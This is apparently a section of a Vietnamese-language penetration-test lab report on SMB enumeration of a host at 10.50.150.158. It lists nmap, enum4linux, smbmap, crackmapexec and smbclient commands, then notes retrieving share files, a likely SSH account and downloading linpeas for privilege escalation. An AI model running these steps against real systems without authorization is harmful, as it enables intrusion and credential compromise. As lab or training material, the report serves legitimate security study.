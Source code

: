 SMB ENUM

![](../media/MSF%20PENTEST%20REPORT_106.png)

SCAN SERVICE:![](../media/MSF%20PENTEST%20REPORT_107.png)

SCAN HDH CỦA MÁY CLIENT:

nmap --script smb-os-discovery.nse -sV 10.50.150.158

![](../media/MSF%20PENTEST%20REPORT_108.png)

Enum user thông qua rid: enum4linux -r 10.50.150.158

![](../media/MSF%20PENTEST%20REPORT_109.png)

get password policy information: enum4linux -P 10.50.150.158 ![](../media/MSF%20PENTEST%20REPORT_110.png)

Get user list and detail:  enum4linux -U -d 10.50.150.158

![](../media/MSF%20PENTEST%20REPORT_111.png)

Từ cái này thấy được tài khoản 0 bị khóa, pass 0 hết hạn, có thể bruteforce được

Get share list: enum4linux -r 10.50.150.158

![](../media/MSF%20PENTEST%20REPORT_112.png)

Ở đây share Josephine đáng chú ý. Có thể có khả năng truy cập 0 cần mk

Dùng smbmap để xem quyền : smbmap -H 10.50.150.158

![](../media/MSF%20PENTEST%20REPORT_113.png)

Giờ chúng ta có thể xem được quyền smb. Có thể crack acc smb bằng:

crackmapexec smb 10.50.150.158   --shares -u ‘’ -p ‘’

![](../media/MSF%20PENTEST%20REPORT_114.png)

Truy cập vào thư mục được share: smbclient //10.50.150.158/osephine

![](../media/MSF%20PENTEST%20REPORT_115.png)

Sau đó get file về

![](../media/MSF%20PENTEST%20REPORT_116.png)

Tài khoản này có thể là tk ssh:

![](../media/MSF%20PENTEST%20REPORT_117.png)

Sau đó, tải linpeas về máy tấn công

![](../media/MSF%20PENTEST%20REPORT_118.png)
